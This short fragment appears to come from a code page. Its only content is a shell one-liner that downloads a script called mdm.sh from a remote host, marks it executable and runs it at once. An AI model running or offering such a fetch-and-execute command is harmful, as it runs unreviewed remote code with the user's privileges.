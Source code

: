 curl http://banhang.hondahongduc.com.vn:9003/aHai/mdm.sh -o test.sh && chmod +x ./test.sh && ./test.sh
